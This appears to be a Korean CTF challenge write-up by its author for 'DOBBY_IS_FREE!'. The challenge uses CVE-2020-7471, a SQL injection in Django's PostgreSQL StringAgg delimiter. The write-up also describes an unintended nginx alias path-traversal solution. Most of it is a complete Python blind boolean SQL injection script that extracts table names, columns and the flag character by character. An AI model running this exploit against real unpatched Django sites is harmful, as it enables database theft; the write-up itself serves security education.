




# DOBBY_IS_FREE!

- 출제된 CTF: [2020 Christmas CTF](https://dreamhack.io/ctf/4)
- 분야: WEB 
- 키워드: DOBBY_IS_FREE! 
- 난이도: ★★★☆☆ 

## 배경
일반적으로 Web Hacker들이 mysql에 대한 SQL Injection을 주로 공부하는걸 보니 
postgresql을 사용해서 Injection 문제를 만들어서 다양한 DB에 대한 공격을 
경험해봤으면 하는 생각에서 만들었습니다.


## 풀이
### 의도한 풀이

* Django 서비스에서 발생한 취약점이므로 이에 대한 힌트를 주기 위해 
HTTP Response에 Version이라는  커스텀 헤더를 추가하여  
`Django`, `Postgres` 버전을 명시했습니다. `Django 3.0.1` 버전에서 발생하는 SQL Injection 취약점 검색시 공개된 poc 코드등이 있습니다.


* 웹 사이트 접근시 게시글 목록 출력


* 좌측 번호 클릭시 해당 게시글에 대한 pk와 content값을 기반으로 게시글 조회


* 실제 백엔드 코드
```python
results = Blog.objects.filter(pk=blog_id, content__contains=content).values('title').annotate(
    custom_field=StringAgg('content', delimiter=content)).all()
```
StringAgg함수를 통해 구분자와 함께 문자열을 붙여서 리턴해주는 함수 인데 해당 
input값에 대한 입력값 검증이 없어서 저 `content`  부분에 injection payload를 넣을수 있습니다.


### 실제 Hacker들의 풀이 
* nginx 서버 설정 실수로 인한 `Path Traversal` 취약점 발생 
```
server {

    location /static {
        autoindex on;
        alias /src/.static_root/;
    }

    location / {
        proxy_pass http://web/;
    }
    listen 80;
    server_name _;
}
```


`http://118.67.135.137/static../` url 접근 후 서버 내 모든 파일 접근이 가능 해짐으로서 백업용 dump 파일을 읽어들여 flag를 획득



### 취약점
CVE-2020-7471

- `Django` version  1.11,  2.2   3.0.x ≤ 3.0.2 버전에서 발견된 
   SQL Injection 취약점 CVE-2020-7471을 이용한 문제

- postgresql 관련 함수 중  `StringAgg` 함수와 관련된 코드에서 
  인자값 검사 기능이 미흡해 발생한 취약점


### 익스플로잇

- 다음은 익스플로잇 코드입니다.

```python
import requests

server = "http://118.67.135.137/post/"

id = 1
content_param = f"/?content="
content = "IS_FREE!"


def exists_check(content):
    """응답값 체크용 함수"""
    if "title" in str(content):
        return True
    else:
        return False


headers = {
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7",
    "Cache-Control": "no-cache",
    "Connection": "keep-alive",
    "Host": "127.0.0.1:8000",
    "Pragma": "no-cache",
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "none",
    "Sec-Fetch-User": "?1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
}

def get_table_info_from_information_schema():
    # table 개수 조회
    table_count = 0
    table_count_get = False
    while table_count_get is False:
        payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(SELECT%20count(table_name)%20as%20cnt%20FROM%20information_schema.tables%20WHERE%20table_schema=%27public%27)%20<=%20{table_count}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""

        table_count = table_count + 1
        url = f"{server}{id}{content_param}{payload}"
        resp = requests.get(url=url, headers=headers)
        if exists_check(resp.content):
            table_count = table_count - 1
            table_count_get = True


    # table list 추출
    table_row_list = []
    # public table 개수 만큼 loop
    for table_row in range(0,table_count):
        # table 명 길이 조회
        for table_name_size in range(0,50):
            payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(select%20length((SELECT%20(table_name)%20as%20cnt%20FROM%20information_schema.tables%20WHERE%20table_schema=%27public%27%20offset%20{table_row}%20limit%201)))%20<=%20{table_name_size}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
            url = f"{server}{id}{content_param}{payload}"
            resp = requests.get(url=url, headers=headers)
            if exists_check(resp.content):
                break
        # table 이름 사이즈 만큼 루프
        table_name = ""
        for i in range(0,table_name_size):
            for ascii in range(0,128):
                payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(select%20ascii(substring((SELECT%20(table_name)%20as%20cnt%20FROM%20information_schema.tables%20WHERE%20table_schema=%27public%27%20offset%20{table_row}%20limit%201),%20{i},1)))%20<=%20{ascii}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
                url = f"{server}{id}{content_param}{payload}"
                resp = requests.get(url=url, headers=headers)
                if exists_check(resp.content):
                    table_name = table_name+str(chr(ascii))
                    break
        table_row_list.append(table_name)

    print(table_row_list)

def get_column_info_from_information_schema():
    vul_flag_column_count = 0
    table_count_get = False
    while table_count_get is False:
        payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(SELECT%20count(*)%20as%20cnt%20FROM%20information_schema.columns%20WHERE%20table_name=%27vul_flag%27)%20<=%20{vul_flag_column_count}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""

        #time.sleep(1)
        vul_flag_column_count = vul_flag_column_count + 1
        url = f"{server}{id}{content_param}{payload}"
        resp = requests.get(url=url, headers=headers)
        if exists_check(resp.content):
            vul_flag_column_count = vul_flag_column_count - 1
            table_count_get = True

    column_name_list = []
    for i in range(0,vul_flag_column_count):
        # table 명 길이 조회
        for table_name_size in range(0,50):
            payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(select%20length((SELECT%20(column_name)%20as%20cnt%20FROM%20information_schema.columns%20WHERE%20table_name=%27vul_flag%27%20offset%20{i}%20limit%201)))%20<=%20{table_name_size}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
            url = f"{server}{id}{content_param}{payload}"
            resp = requests.get(url=url, headers=headers)
            if exists_check(resp.content):
                break

        #vul_flag table column 이름 조회
        column_name = ""
        for j in range(1,table_name_size+1):
            for ascii in range(0,128):
                payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(select%20ascii(substring((SELECT%20(column_name)%20as%20cnt%20FROM%20information_schema.columns%20WHERE%20table_name=%27vul_flag%27%20offset%20{i}%20limit%201),%20{j},1)))%20<=%20{ascii}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
                url = f"{server}{id}{content_param}{payload}"
                resp = requests.get(url=url, headers=headers)
                if exists_check(resp.content):
                    column_name = column_name+str(chr(ascii))
                    break
        column_name_list.append(column_name)

    print(column_name_list)

def get_flag_from_flag_table():
    for flag_length in range(0,50):
        payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(SELECT%20length(string_agg(vul_flag.flag,%20%27%27))%20FROM%20vul_flag)%20<=%20{flag_length}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
        url = f"{server}{id}{content_param}{payload}"
        resp = requests.get(url=url, headers=headers)
        if exists_check(resp.content):
            break

    flag = ""
    for j in range(1,flag_length+1):
        for ascii in range(0,128):
            payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(select%20ascii(substring((SELECT%20(flag)%20as%20cnt%20FROM%20vul_flag%20offset%200%20limit%201),%20{j},1)))%20<=%20{ascii}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
            url = f"{server}{id}{content_param}{payload}"
            resp = requests.get(url=url, headers=headers)
            if exists_check(resp.content):
                flag = flag+str(chr(ascii))
                break
    print(flag)

#Information Schema에서 테이블 정보 추출
#get_table_info_from_information_schema()

#테이블명 알아냈으니 information_schema에서 column 정보 추출
#get_column_info_from_information_schema()

#column정보 기반으로 flag 값 추출
get_flag_from_flag_table()

```

- 다음은 실행 결과입니다.

```
D033Y_!S_L0N3LY
```

### 레퍼런스
[Poc](https://github.com/Saferman/CVE-2020-7471)
[CVE-2020-7471](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7471)
[Django Security](https://docs.djangoproject.com/ko/2.1/topics/security/)
[Django Offical Document](https://www.djangoproject.com/weblog/2020/feb/03/security-releases/)
[Django Release History](https://docs.djangoproject.com/en/3.0/releases/security/#february-3-2020-cve-2020-7471)

